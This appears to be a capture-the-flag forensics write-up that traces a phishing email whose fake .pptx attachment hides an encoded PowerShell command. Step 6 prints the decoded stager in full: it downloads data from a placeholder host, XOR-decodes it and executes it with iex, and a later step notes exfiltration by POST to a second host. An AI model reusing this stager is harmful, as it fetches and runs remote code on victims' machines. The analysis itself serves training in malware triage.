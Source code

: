 # task 3
1. unzip emails
2. use ripmime to extract all the attachments
	a. for i in *; do ripmime -i $i -d attachment_$i; done;
3. further see what kind of attachments are within each email message
	a. file attachment*/*
4. oh the oopsie_update.pptx is not actually a powerpoint file... it's ASCII text
5. cat oopsie_update.pptx and see a powershell command to an "-enc" which sends a base64 string (which we know because of the "==" at the end
6. use cyberchef to decode the bas64 to see:
	$bytes = (New-Object Net.WebClient).DownloadData('http://xomtq.invalid/analysis')

	$prev = [byte] 173

	$dec = $(for ($i = 0; $i -lt $bytes.length; $i++) {
    		$prev = $bytes[$i] -bxor $prev
    		$prev
	})

	iex([System.Text.Encoding]::UTF8.GetString($dec))
7. we see it is downloading data, but notice that xomtq.invalid doesn't work so we gotta look more into it... we see that we should look at the HEX stream from the 200 HTTP request
8. Booting up VS Code, we need to write a script that takes the hex_val stream and put it into byte format, which we do via unhexlify
9. Next we do the same operation that is being done in the ASCII text from step 6 but in Python
10. Make sure to join all the items in the list and print it out, we get a huge powershell script and output that to fullpowershell.txt and then see at the bottom a POST request sent to http://wtmbi.invalid:8080
11. going back to message_9.eml, I used "head message_9.eml" to find the Message-ID as <161584985300.22130.15351049748726194876@oops.net>
12. Submit Message-ID and domain name to the challenge (wtmbi.invalid) and SUCCESS
